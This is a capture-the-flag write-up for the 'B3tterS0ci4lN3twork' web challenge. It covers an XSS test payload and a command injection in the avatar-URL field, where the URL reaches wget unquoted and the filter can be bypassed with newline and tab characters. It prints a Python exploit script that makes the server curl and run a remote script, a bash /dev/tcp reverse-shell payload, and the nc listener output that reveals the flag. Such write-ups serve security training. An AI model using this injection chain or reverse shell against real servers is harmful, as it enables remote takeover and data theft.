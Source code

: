 # web50 - B3tterS0ci4lN3twork
**Description**: You know what to do!

**Hint**: Try to find some known cves)

## Challenge

The target for this challenge is a simple social network site. To interact with the site you need to create an account:

![register](./img/web50-register.png)

After creating an account and logging in, you are greeted with a profile page where you can edit your password and and set an avatar URL:

![profile](./img/web50-profile.png)

It is also possible to to send messages to another user:

![send message](./img/web50-msgsend.png)

And of course you can also view the messages you received:

![read message](./img/web50-msgread.png)

## Finding the vulnerability

Testing the fields for injection we can quickly find that there is an XSS injection possible when you send messages. For example,
we can send `<script>alert("Get back to work!")</script>` as a message and when we click on "Get Message" we get a nice dialog:

![xss](./img/web50-xss.png)

In theory, this should allow us to hijack the session of another user. Unfortunately there does not seem to be any "interesting" user (like an admin) reading these messages,
so this does not lead us any further.

Another thing that is interesting about this site is that when setting the profile picture to an URL, the server first downloads that URL and then links to the fetched image at `/avatars/example.com/profile.png`.
If we set the URL to our own server `mydomain.com/test.png`, we can get the exact request that the server sends to fetch the avatar picture:

```
GET /test.png HTTP/1.1
User-Agent: Wget/1.15 (linux-gnu)
Accept: */*
Host: mydomain.com
Connection: Keep-Alive
```

Look at the user agent: `Wget`. So the server apparently runs `wget mydomain.com/test.png` (or with quotes around the URL, but as we will see later that is not the case).
Testing a few special characters, we find that the following characters are filtered: ``&, $, ;, space, |, ` `` (they are removed from the URL prior to running wget).
We find that the URL is in fact passed to wget unquoted because if we set the avatar URL to `mydomain.com>`, then we don't get any request at all indicating that the shell hit a syntax error (this would not happen if the argument was quoted).

Turns out that `;` is not the only way to separate multiple commands: you can also use a newline. Also, instead of space we can use a tabulator to separate multiple arguments. Try this:

```
$ python3
>>> import subprocess
>>> subprocess.call(["bash", "-c", "echo URL\necho\tanothercommand"])
URL
anothercommand
0
>>> 
```

Armed with that knowledge, we can run arbitrary commands on the server using `URL<newline>ourcommand<tab>arg1<tab>arg2` as the avatar url, and it will end up getting executed as:

```bash
wget URL
ourcommand arg1 arg2
```

## Exploiting it

Turns out it is a little hard to insert raw tabulators or newlines into a form field with a browser, so we can write a little python script that does the request for us
(we need to copy the `PHPSESSID` of the browser because we need to be logged in for this):

```python
#!/usr/bin/env python2 
import requests
def req(url):
    requests.post("http://tasks.ctf.com.ua:13374/profile.php", data={"avatar_url": url}, cookies={"PHPSESSID": "lovu4fu6cu74qd2sbev6h2hba3"})
   
req("http://mydomain.com\ncurl\thttp://mydomain.com/script>/tmp/script\nbash\t/tmp/script")
```

Before running this script, we make sure to serve a reverse shell at `http://mydomain.com/script` (like `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`, replace "10.0.0.1" with the domain of our server).
Listen on port `8080` on the server for the reverse shell and run the script:

```
$ nc -l -p 8080
rail@4662aa7ff512:/var/www/srv/www$ cat ihsfdhvkeuryhiuverhiuse.php
cat ihsfdhvkeuryhiuverhiuse.php
<?php

$flag="h4ck1t{h4ck1t{wg3t_cv3_1n_CTF}";

?>

```

And we got the flag. Only one question left: what about the hint?
